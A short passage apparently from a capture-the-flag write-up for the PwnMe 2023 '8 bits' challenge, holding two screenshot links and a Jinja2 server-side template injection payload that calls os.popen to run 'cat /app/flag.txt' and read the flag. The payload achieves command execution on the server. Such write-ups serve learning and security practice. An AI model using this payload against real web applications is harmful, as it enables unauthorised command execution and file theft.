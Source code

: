 ![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507162317.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507162323.png)

Yes!!! Let's read the flag!!!

```py
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /app/flag.txt').read() }}
```

